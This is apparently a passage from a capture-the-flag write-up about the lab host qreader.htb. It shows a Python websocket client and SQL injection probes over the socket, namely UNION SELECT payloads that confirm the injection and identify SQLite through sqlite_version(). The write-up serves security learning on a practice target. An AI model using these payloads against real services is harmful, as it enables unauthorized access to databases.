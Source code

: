 I've already seen SQL Injections over websocket in the past so that was something that came to my mind

### SQL Injection

**ws_cli.py**  
I changed the query paramter during my tests

```python
from websocket import create_connection
import sys, json

ws_host = 'ws://ws.qreader.htb:5789'

VERSION = '0.0.2'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()

```

**Simple Check**  

```bash
python3 ws_cli.py
Sending...
Sent
Receiving...
Received '{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}'
```

**Check SQLi**  

```bash
# query='0.0.3" UNION SELECT 1,2,3,4-- -''
Sending...
Sent
Receiving...
Received '{"message": {"id": 1, "version": 2, "released_date": 3, "downloads": 4}}'
```

**Check which DB**

```bash
# Played around and sqlite was the way to go!
# query='0.0.3" UNION SELECT sqlite_version(),2,3,4-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "3.37.2", "version": 2, "released_date": 3, "downloads": 4}}'
```
